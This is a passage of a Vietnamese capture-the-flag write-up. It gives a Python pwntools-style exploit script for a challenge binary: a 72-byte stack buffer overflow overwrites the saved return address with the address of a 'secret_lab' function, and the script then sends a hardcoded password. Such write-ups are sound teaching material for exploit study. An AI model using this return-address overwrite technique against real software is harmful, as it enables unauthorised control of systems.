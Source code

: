 ## Exploit Development

Vì ta đã biết được lỗi là gì và binary này cũng không có những lớp bảo mật để chống `Buffer Overflow` nên ta sẽ dể dàng kiểm soát được `saved rip` của `quantum_entangle` và thay đổi nó thành địa chỉ của `secret_lab`, và khi `quantum_entangle` nó sẽ return vào `secret_lab`, việc tiếp theo ta làm là chỉ cần nhập `hardcode` đã có:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''


b*main+250
# b*0x0000000000401548
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================


def choice(option):

    sla(b'choice: ', f'{option}'.encode())


def exploit():

    choice(1)
    sl(b'A' * 72 + p64(exe.sym.secret_lab+1))
    sl(b'qu4ntumR3ality')

    interactive()

if __name__ == '__main__':
    exploit()
```
